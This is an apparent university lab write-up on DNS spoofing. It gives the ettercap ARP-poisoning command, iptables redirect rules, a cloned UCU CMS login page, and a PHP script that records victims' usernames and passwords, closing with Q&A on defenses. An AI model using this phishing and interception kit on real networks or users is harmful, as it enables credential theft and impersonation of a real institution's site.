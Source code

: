 ## Lab2: DNS Spoofing

In this lab we perform DNS spoofing attack, i.e., we'll redirect a victim's website request to your fake website.

## Setup (two virtual machines, both connected to the same network):
- Kali Linux (attacker)
- Ubuntu (victim)

First we verify connectivity
```
ifconfig # to check ip-address
```

kali: 192.168.64.9
ubuntu: 192.168.64.3

And test connectivity with ping on both machines
```
ping [other-vm-ip-address]
```

![img-0](data/img-0.png)

## Attacker 

Update & Install tools
```
sudo apt update
sudo apt install ettercap-text-only dsniff apache2 -y
```

Now we need to setup web server for phishing

First start apache
```
sudo systemctl start apache2
```

Now lets create phishing page that mimics ucu cms
```
sudo nano /var/www/html/index.html
```

```
<!DOCTYPE html>
<html>
<head>
    <title>UCU CMS Login</title>
    <style>
        body { font-family: Arial, sans-serif; background-color: #f5f5f5; }
        .container { width: 320px; margin: 100px auto; padding: 20px; background: white; border: 1px solid #ddd; box-shadow: 0 2px 4px rgba(0,0,0,0.1); }
        h2 { color: #920000; text-align: center; }
        input { width: 100%; padding: 10px; margin: 10px 0; box-sizing: border-box; border: 1px solid #ddd; }
        button { width: 100%; padding: 10px; background: #920000; color: white; border: none; cursor: pointer; }
    </style>
</head>
<body>
    <div class="container">
        <h2>UCU CMS Login</h2>
        <form method="post" action="capture.php">
            <input type="text" name="username" placeholder="Username" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Log in</button>
        </form>
    </div>
</body>
</html>
```

And credentials capture scrips:
```
sudo nano /var/www/html/capture.php
```
```
<?php
// Get the POST data
$username = isset($_POST['username']) ? $_POST['username'] : 'no_username';
$password = isset($_POST['password']) ? $_POST['password'] : 'no_password';
$ip = $_SERVER['REMOTE_ADDR'];

// Format the data
$data = "IP: $ip - Username: $username - Password: $password\n";

// Write to a file in a web-accessible location
$dir = '/var/www/html/data';
if (!file_exists($dir)) {
    mkdir($dir, 0777, true);
}
file_put_contents($dir.'/captured.txt', $data, FILE_APPEND);

// Redirect to the real site
header('Location: https://cms.ucu.edu.ua');
exit;
?>
```

Add proper permitions:
```
sudo mkdir -p /var/www/html/data
sudo chown www-data:www-data /var/www/html/data
sudo chmod 777 /var/www/html/data
```

Next we need to crate DNS spoofing rules file
```
sudo nano /etc/ettercap/etter.dns
```
and add there an entry for the target domain, as on the image bellow:

![img-1](data/img-1.png)

And also configure ip forwarding
```
sudo sysctl -w net.ipv4.ip_forward=1

sudo iptables -F
sudo iptables -t nat -F
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 80
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 80
```

Now lets start network scanning,

firstly we identify active hosts 

![img-2](data/img-2.png)

And yay we see our kali ip, victim ip and gateway ip!!!

Now start traffic capture
```
sudo tcpdump -i eth0 -w dns_spoof_capture.pcap &
```

And launch ettercap
```
sudo ettercap -T -q -i eth0 -P dns_spoof -M arp:remote /<victim-ip>// /<gateway-ip>//
```

In my case
```
sudo ettercap -T -q -i eth0 -P dns_spoof -M arp:remote /192.168.64.3// /192.168.64.1//
```
![img-3](data/img-3.png)


## Victim

Go to `http://cms.ucu.edu.ua` ans safely enter your _fake_ credentials.

Those credentials are now captured on the attacker machien in `/var/www/html/data/captured.txt`

![img-4](data/img-4.png)

## Q&A

• Would this attack be possible if DHCP were to distribute a DNS address from an external network? Explain your answer.

Yes, it would still be possible, but the attacker would face additional challenges, as they would need to intercept traffic and respond faster than legitimate DNS servers.

• What are the purposes of creating a local DNS in a company? Give some reasons.

Local DNS servers improve resolution speed for internal resources and provide better control over domain name management, enhancing overall network efficiency.

• What technologies/protocols/policies can make this type of attack difficult/impossible?

For example, implementing DNSSEC provides authentication and integrity for DNS responses, while HTTPS encrypts data in transit, making it much harder for attackers to eavesdrop or tamper with communications.